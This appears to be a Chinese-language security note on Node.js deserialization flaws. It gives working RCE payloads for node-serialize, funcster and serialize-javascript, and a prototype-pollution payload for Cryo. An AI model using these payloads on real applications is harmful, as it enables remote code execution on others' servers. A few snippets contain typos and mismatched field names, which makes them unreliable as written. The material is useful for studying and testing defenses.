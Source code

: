 # Node反序列化漏洞

检测

+ node-serialize
+ serialize-to-js
+ funcster

## Node序列化

生成序列化的Payload
```
var y = {
    rce : function(){
        require('child_process').exec('ls /', function(error,
        stdout, stderr) { console.log(stdout) });
    },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

添加()强制执行
```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
```

## funcster

```
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```

funcster 的一个值得注意的方面是标准内置对象的不可访问性； 它们超出了可访问范围。 此限制会阻止执行尝试调用内置对象方法的代码，从而在使用 console.log() 或 require(something) 等命令时导致出现ReferenceError：控制台未定义等异常。

尽管存在此限制，但可以通过特定方法恢复对全局上下文（包括所有标准内置对象）的完全访问。 通过直接利用全局上下文，可以绕过这一限制。 例如，可以使用以下代码片段重新建立访问：
```
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function() { return "Hello world!" })
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = { __js_function: 'this.constructor.constructor("console.log(1111)")()' }
funcster.deepDeserialize(desertest2)
var desertest3 = { __js_function: 'this.constructor.constructor("require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });")()' }
funcster.deepDeserialize(desertest3)
```

## Serialize-javascript

Serialize-javascript 包专为序列化目的而设计，缺乏任何内置的反序列化功能。 用户负责实现自己的反序列化方法。 官方示例建议直接使用 eval 来反序列化序列化数据：
```
function deserialize(serializedJavascript){
  return eval('(' + serializedJavascript + ')');
}
```

如果此函数用于反序列化对象，Payload：
```
var serialize = require('serialize-javascript');
//Serialization
var test = serialize(function() { return "Hello world!" });
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```

## Cryo

它支持函数序列化和对象重建的方括号表示法，但它不容易受到 IIFE 的影响，因为它正确地管理对象（不使用eval&co）。

这是对象序列化和反序列化的代码：
```
cvar Cryo = require('cryo');
var obj = {
testFunc : function() {return 1111;}
};

var frozen = Cryo.stringify(obj);
console.log(frozen)

var hydrated = Cryo.parse(frozen);
console.log(hydrated);
```

序列化的JSON:
```
{"root":"_CRYO_REF_1","references":[{"contents":{},"value":"_CRYO_FUNCTION_function () {return 1111;}"},{"contents":{"testFunc":"_CRYO_REF_0"},"value":"_CRYO_OBJECT_"}]}
```

对于我们的攻击，我们可以使用自定义 __proto__ 创建序列化的 JSON 对象。 我们可以使用我们自己的方法来创建对象的原型，但作为一个小技巧，我们可以为 __proto__ 设置一个不正确的名称（因为我们不想在应用程序中重写对象的原型）并将其序列化
```
var obj = {
    __proto: {
        toString: function() {console.log("defconrussia"); return 1111;},
        valueOf: function() {console.log("defconrussia"); return 2222;}
    }
};
```

所以我们得到序列化对象并将其从 __proto 重命名为 __proto__ ：
```
{"root":"CRYO_REF_3","references":[{"contents":{},"value":"_CRYO_FUNCTION_function () {console.log(\"defconrussia\"); return 1111;}"},{"contents":{},"value":"_CRYO_FUNCTION_function () {return 2222;}"},{"contents":{"toString":"_CRYO_REF_0","valueOf":"_CRYO_REF_1"},"value":"_CRYO_OBJECT"},{"contents":{"proto":"CRYO_REF_2"},"value":"_CRYO_OBJECT"}]}
```

当我们将该 JSON 有效负载发送到应用程序时，Cryo 包会反序列化对象中的有效负载，但也会将对象的原型更改为我们的值。 因此，如果应用程序以某种方式与对象进行交互，例如将其转换为字符串，则将调用原型的方法并执行我们的代码。
